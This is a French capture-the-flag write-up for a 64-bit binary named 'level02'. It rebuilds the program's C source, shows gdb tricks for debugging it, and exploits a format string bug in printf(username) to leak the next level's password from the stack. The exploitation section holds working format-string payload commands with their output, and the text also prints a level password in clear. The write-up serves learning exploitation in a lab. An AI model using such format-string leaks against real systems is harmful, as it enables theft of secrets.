 # Level 02

## Analyse du binaire

Lorsqu'on exécute le binaire un username puis un mot de passe est demandé sur l'entrée standard.

On remarque que l'architecture pour laquelle a été conçue le binaire est différente de tous les précédents exercices. En effet il s'aggit ici d'une architecture 64 bits **amd64** et non plus **i386**.
Le code asm va donc différer un peu. Il y a donc l'apparition des registres 64 bits :

| 64 bits registers | Lower 32 bits | Lower 16 bits | Lower 8 bits |
| ----------------- | ------------- | ------------- | ------------ |
| rax               | eax           | ax            | al           |
| rbx               | ebx           | bx            | bl           |
| rcx               | ecx           | cx            | cl           |
| rdx               | edx           | dx            | dl           |
| rsi               | esi           | si            | sil          |
| rdi               | edi           | di            | dil          |
| rbp               | ebp           | bp            | bpl          |
| rsp               | esp           | sp            | spl          |
| r8                | r8d           | r8w           | r8b          |
| r9                | r9d           | r9w           | r9b          |
| r10               | r10d          | r10w          | r10b         |
| r11               | r11d          | r11w          | r11b         |
| r12               | r12d          | r12w          | r12b         |
| r13               | r13d          | r13w          | r13b         |
| r14               | r14d          | r14w          | r14b         |
| r15               | r15d          | r15w          | r15b         |

Les _calling conventions_ sont aussi différentes. De [wikipedia](https://en.wikipedia.org/wiki/X86_calling_conventions#x86-64_calling_conventions) :

```
The first six integer or pointer arguments are passed in registers RDI, RSI, RDX, RCX, R8, R9 (R10 is used as a static chain pointer in case of nested functions), while XMM0, XMM1, XMM2, XMM3, XMM4, XMM5, XMM6 and XMM7 are used for the first floating point arguments.
As in the Microsoft x64 calling convention, additional arguments are passed on the stack.

```

## Réécriture du code source

On peut réécrire en C un code source :

```c
int main(int argc, const char **argv)
{
	char *password[96];		 // rbp-0x110
	char *password_file[40]; // rbp-0xa0
	char *username[96];		 // rbp-0x70
	int tmp;				 // rbp-0xc
	FILE *file;				 // rbp-0x8

	bzero(username, 96);	  // not really a call to bzero function
	bzero(password_file, 40); // not really a call to bzero function
	bzero(password, 96);	  // not really a call to bzero function

	file = NULL;
	tmp = 0;
	file = fopen("/home/users/level03/.pass", "r");
	if (!file)
	{
		fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
		exit(1);
	}
	tmp = fread(password_file, 1, 41, file);

	int res = strcspn(password_file, "\n");
	password_file[res] = '\0';

	if (tmp != 41)
	{
		fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
		fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
		exit(1);
	}
	fclose(file);

	puts("===== [ Secure Access System v1.0 ] =====");
	puts("/***************************************\\");
	puts("| You must login to access this system. |");
	puts("\**************************************/");

	printf("--[ Username: ");
	fgets(username, 100, stdin);
	int res = strcspn(username, "\n");
	username[res] = '\0';

	printf("--[ Password: ");
	fgets(password, 100, stdin);
	int res = strcspn(password, "\n");
	password[res] = '\0';

	puts("*****************************************");

	if (strncmp(password_file, password, 41))
	{
		printf(username);
		puts(" does not have access!");
		exit(1);
	}

	printf("Greetings, %s!\n", username);
	system("/bin/sh");
	return 0;
}
```

## Débuguer le programme

Ce level, ouvrant et lisant le mot de passe de level03, il est difficile d'utiliser un débugueur puisqu'il n'a donc pas les droits sur ce fichier. Pour pouvoir débuguer un minimum, on peut lors de la lecture utiliser comme fichier l'entrée standard à la place du mot de passe. Pour ce faire il faut faire utiliser les commandes suivantes dans gdb :

Dans un premier temps on place les breakpoints où l'on veut. Par exemple, juste après le 2e _fgets_ :

```gdb
b *0x400a24
```

On place deux breakpoints, un à la suite de _fopen_, un avant l'appel de _fclose_.

```gdb
b *0x4008ad
b *0x400981
```

- Au breakpoint `0x4008ad`, on modifie la valeur de retour de _fopen_, pour lui assigner _stdin_ :

```gdb
set $rax = 0x00007ffff7dd4340
```

- Un input est attendu sur l'entrée standard, comme il y aura une vérification sur la longueur du mot de passe on peut utiliser le mot de passe du level actuel : `PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv` ou toute chaîne de caractères ayant au moins 41 caractères.

- Au breakpoint `0x400981`, on modifie le 1er argument de la fonction _fclose_ :

```gdb
set $rax = 0x00007ffff7dd4180
```

## Exploitation

On peut penser au début que la faille vient de la comparaison entre le mot de passe entré et le mot de passe récupéré depuis le fichier :

```c
strncmp(password_file, password, 41)
```

Cependant, tous les buffers alloués possèdent la bonne taille et ils sont protégés. On ne peut donc pas utiliser de **buffer overflow** pour modifier le mot de passe provenant du fichier et ensuite accéder au shelllancé par la commande système.

Cependant, on remarque juste après que cette comparaison échoue un appel à la fonction _printf_ avec comme argument l'argument _username_ :

```c
printf(username);
```

On peut donc utiliser une **format string attack**.

Comme le mot de passe est lu et stocké dans une variable, il faudrait juste pouvoir afficher cette variable pour obtenir notre mot de passe.

En utilisant la commande :

```bash
(echo "%lx %lx %lx %lx %lx %lx %lx %lx %lx"; echo "passwd") | ./level02
```

on obtient :

```
7fffffffe3d0 0 70 2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a 7fffffffe5c8 1f7ff9a08 647773736170 0 does not have access!
```

Avec gdb, en s'arrêtant juste avant l'appel à la fonction _printf_, on peut voir le contenu des registres :

```
RAX: 0x0
RBX: 0x0
RCX: 0x70 ('p')
RDX: 0x0
RSI: 0x7fffffffe390 --> 0x647773736170 ('passwd')
RDI: 0x7fffffffe430 --> 0x786c25 ('%lx')
RBP: 0x7fffffffe4a0 --> 0x0
RSP: 0x7fffffffe380 --> 0x7fffffffe588 --> 0x7fffffffe7ef ("/home/users/level02/level02")
RIP: 0x400aa2 (<main+654>:      call   0x4006c0 <printf@plt>)
R8 : 0x2a2a2a2a2a2a2a2a ('********')
R9 : 0x2a2a2a2a2a2a2a2a ('********')
R10: 0x7fffffffe110 --> 0x0
```

et de la stack :

```
0000| 0x7fffffffe380 --> 0x7fffffffe588 --> 0x7fffffffe7ef ("/home/users/level02/level02")
0008| 0x7fffffffe388 --> 0x1f7ff9a08
0016| 0x7fffffffe390 --> 0x647773736170 ('passwd')
0024| 0x7fffffffe398 --> 0x0
```

On remarque bien la correspondance entre les paramètres et les registres / la stack. Les adresses `7fffffffe3d0 0 70 2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a` correspondent respectivement aux registres `RSI RDX RCX R8 R9`. Les adresses `7fffffffe5c8 1f7ff9a08 647773736170 0` correspondent aux premiers éléments de la stack.

On remarque donc que notre mot de passe est dans la stack et donc qu'on peut le réutiliser. On le vérifie :

```bash
(echo "%s %lx %lx %lx %lx %lx %lx %lx %lx"; echo "AAAAAAAAA") | ./level02
```

```
AAAAAAAAA 0 41 2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a 7fffffffe5c8 1f7ff9a08 4141414141414141 41 does not have access!
```

On peut donc insérer l'adresse de la variable où est stocké le mot de passe du level03 et l'afficher. L'adresse de cette variable est `0x7fffffffe400`. Cependant on a vu précédement que l'adresse du mot de passe entré par l'utilisateur est différente selon si on exécute le binaire via le débugueur ou non.
On avait dans le débugueur l'adresse `0x7fffffffe390` et l'adresse affichée `0x7fffffffe3d0`. En faisant la différence des deux on obtient 0x40 (hex) ou 64 (dec).
En ajoutant cette différence à notre adressse on obtient `0x7fffffffe400 + 0x40 = 0x7f ffffffe440`.

Finalement on peut utiliser la commande suivante pour afficher le mot de passe de l'utilisateur level03 :

```bash
(echo "%lx %lx %lx %lx %lx %lx %lx %s %lx"; echo -e "\x40\xe4\xff\xff\xff\x7f") | ./level02
```
